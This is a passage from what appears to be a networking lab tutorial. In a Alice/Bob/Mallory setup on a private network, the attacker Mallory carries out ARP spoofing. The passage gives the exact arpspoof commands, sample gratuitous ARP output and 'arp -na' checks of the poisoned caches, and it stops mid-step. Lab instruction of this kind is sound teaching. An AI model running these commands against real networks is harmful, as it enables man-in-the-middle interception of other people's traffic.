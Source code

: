 ```
ping -c 1 192.168.0.3
ping -c 1 192.168.0.4
ping -c 1 192.168.0.5
```



### Carry out the attack

Now that everyone is on the network, Mallory is ready to carry out her attack. For this attack, she will send gratuitous ARP messages, making Alice think that Mallory's MAC address is the Layer 2 address for Bob's IP address, and making Bob think that Mallory's MAC address is the Layer 2 address for Alice's IP address.

To start the ARP spoofing, Mallory will run

<pre>
arpspoof -i wlan0 -t 192.168.0.3 192.168.0.4
</pre>

in one terminal and 

<pre>
arpspoof -i wlan0 -t 192.168.0.4 192.168.0.3 
</pre>

in another.

Here, Mallory sends ARP messages to Alice (192.168.0.3) that make Alice believe that Bob (192.168.0.4) is located at Mallory's MAC access. Mallory also sends ARP messages to Bob to that make Bob believe that Alice is located at Mallory's MAC address.

You should see output on the terminal indicating that Mallory is sending gratuitous ARPs. For example:

<pre>
0:c:42:3a:c4:77 0:c:42:3a:b4:8 0806 42: <b>arp reply 192.168.0.3 is-at 0:c:42:3a:c4:77</b>
</pre>

These ARP replies will continue to appear at regular intervals.

Also, if Alice runs

```
arp -na
```

we can see that Alice believes that Bob is at Mallory's MAC address, e.g.:

<pre>
? (192.168.0.4) at <b>00:0c:42:3a:c4:77</b> [ether] on wlan0
</pre>

and if we run

```
arp -na
```

on Bob, we'll see that he believes _Alice_ is at Mallory's MAC address, e.g.:

